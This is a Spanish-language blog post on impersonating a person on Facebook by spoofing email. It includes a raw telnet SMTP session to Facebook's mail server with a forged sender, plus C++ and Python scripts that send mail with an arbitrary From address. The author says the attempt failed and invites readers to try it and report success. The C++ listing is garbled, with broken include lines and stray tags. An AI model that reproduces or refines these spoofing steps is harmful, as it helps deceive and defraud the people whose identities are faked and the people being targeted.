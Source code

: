 ```yaml
---
author: alex
categories:
- seguridad
color: '#F57C00'
date: '2016-01-01'
format: aside
if_slider_image:
- null
- null

mainclass: articulos
url: /suplantacion-de-identidad-en-facebook/
tags:
- email spoofing
- seguridad
- smtp
- spoofing facebook
title: "Suplantaci\xF3n de identidad en Facebook"
---
```


Leyendo el blog de <a href="http://www.elladodelmal.com/" target="_blank">Chema Alonso</a> me he encontrado con una entrada interesante que, aunque no he logrado realizarla al 100% quiero compartirla con vosotros para que lo intente quien quiera.

El método consiste en conseguir 3 cosas:

*La dirección de correo de la persona a suplantar.*
*Dirección de correo de facebook de la persona a quién se va a engañar.*
*Un sistema para enviar correos SMTP*

Los pasos a seguir podéis leerlos en la entrada de <a href="http://www.elladodelmal.com/2012/05/suplantacion-de-identidad-en-facebook.html" target="_blank">Chema: Suplantación de identidad en Facebook</a>

Voy a explicar lo que yo he hecho:

Al principio al establecer comunicación mediante telnet por el puerto 25 (el de SMTP) y escribrir los comandos siempre recibía el siguiente error:

```bash
<strong>550 5.6.0 Invalid header found (see RFC2822 section 3.6)</strong>
```

Tras buscar un poco el motivo descubrí que se debía a que me estaba saltando algunas cabeceras del protocolo, concretamente *From, To * y *Date.*

En resumen, todo el proceso queda como sigue:

<!--more--><!--ad-->

```bash
telnet smtpin.mx.facebook.com smtp
Trying 69.171.244.11...
Connected to smtpin.mx.facebook.com.
Escape character is '^]'.
220 smtpin.mx.facebook.com ESMTP
HELO client.facebook.com
250 smtpin.mx.facebook.com says HELO to xx.xxx.xxx.xx:xxxxx
MAIL from:
250 MAIL FROM accepted
RCPT to:
250 RCPT TO accepted
DATA
354 continue.  finished with "rn.rn"
From: xxxxx@xxxxx.xxx
To: xxxxxx@facebook.com
Subject: Test
Date: xxx, xx xxx xxxx xx:xx:xx -xxxx

This is an example
.
450 4.3.2 INT-T14 http://postmaster.facebook.com/response_codes?ip=xx.xxx.xx.x#int Server busy, try again later
Connection closed by foreign host.
```

Pero sigo recibiendo un error (*450 4.3.2 INT-T14 http://postmaster.facebook.com/response_codes?ip=xx.xxx.xx.x#int Server busy, try again later
Connection closed by foreign host*)

También probé con dos programas (sin éxito), uno en[ C++][1] y otro en [python][2] que encontré en stackoverflow:

```cpp
#include <iostream>
     #include <sys>
     #include </sys><sys>
     #include <netinet>
     #include <netdb>
     #include <stdio>
     #include <string>
     using namespace std;
     #define HELO "HELO xxxxxx@xxxx.xxxxrn"
     #define DATA "DATArn"
     #define QUIT "QUITrn"

    //#define h_addr h_addr_list[0]
    //FILE *fin;
    int sock;
    struct sockaddr_in server;
    struct hostent *hp, *gethostbyname();
    char buf[BUFSIZ+1];
    int len;
    char *host_id="69.171.244.12";
    char *from_id="********";
    char *to_id="*******";
    char *sub="testmailrn";
    char wkstr[100]="hello how r urn";

    /*=====Send a string to the socket=====*/

    void send_socket(char *s)
    {
        write(sock,s,strlen(s));
        write(1,s,strlen(s));
        //printf("Client:%sn",s);
    }

    //=====Read a string from the socket=====*/

    void read_socket()
    {
        len = read(sock,buf,BUFSIZ);
        write(1,buf,len);
      //printf("Server:%sn",buf);
    }

    /*=====MAIN=====*/
    int main(int argc, char* argv[])
    {

    /*=====Create Socket=====*/
    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock==-1)
    {
     perror("opening stream socket");
     return 1;
    }
    else
      cout < < "socket createdn";
    /*=====Verify host=====*/
    server.sin_family = AF_INET;
    hp = gethostbyname(host_id);
    if (hp==(struct hostent *) 0)
    {
     fprintf(stderr, "%s: unknown hostn", host_id);
     return 2;
    }

    /*=====Connect to port 25 on remote host=====*/
    memcpy((char *) &server.sin;_addr, (char *) hp->h_addr, hp->h_length);
    server.sin_port=htons(25); /* SMTP PORT */
    if (connect(sock, (struct sockaddr *) &server;, sizeof server)==-1)
    {
     perror("connecting stream socket");
     return 1;
    }
    else
      cout < < "Connectedn";
    /*=====Write some data then read some =====*/
    read_socket(); /* SMTP Server logon string */
    send_socket(HELO); /* introduce ourselves */
    read_socket(); /*Read reply */
    send_socket("MAIL FROM: ");
    send_socket(from_id);
    send_socket("rn");
    read_socket(); /* Sender OK */
    send_socket("VRFY ");
    send_socket(from_id);
    send_socket("rn");
    read_socket(); // Sender OK */
    send_socket("RCPT TO: "); /*Mail to*/
    send_socket(to_id);
    send_socket("rn");
    read_socket(); // Recipient OK*/
    send_socket(DATA);// body to follow*/
    send_socket("Subject: ");
    send_socket(sub);
    read_socket(); // Recipient OK*/
    send_socket(wkstr);
    send_socket(".rn");
    read_socket();
    send_socket(QUIT); /* quit */
    read_socket(); // log off */

    //=====Close socket and finish=====*/
    close(sock);
    return 0;
  }

```

La versión en python:

```python
#!/usr/bin/python

import smtplib
import sys
import os

sender = 'xxxxx@xxxxx.com'
receivers = ['xxxxx@facebook.com']

message = """From: From Person
To: To Person
Subject: SMTP e-mail test
This is a test e-mail message.
"""

try:
   smtpObj = smtplib.SMTP('69.171.244.12')
   smtpObj.sendmail(sender, receivers, message)
   print "Successfully sent email"
except Exception, exc:
   sys.exit( "mail failed; %s" % str(exc) ) # give a error message
```

Esto es todo, por más que lo he intentado no lo he logrado, si os animáis a probarlo y lo conseguís, agradecería que lo comentárais.

##### Fuente: <a href="http://www.elladodelmal.com/2012/05/suplantacion-de-identidad-en-facebook.html" target="_blank">Elladodelmal</a>
</string></stdio></netdb></netinet></sys></iostream>



 [1]: https://elbauldelprogramador.com/c/
 [2]: https://elbauldelprogramador.com/python
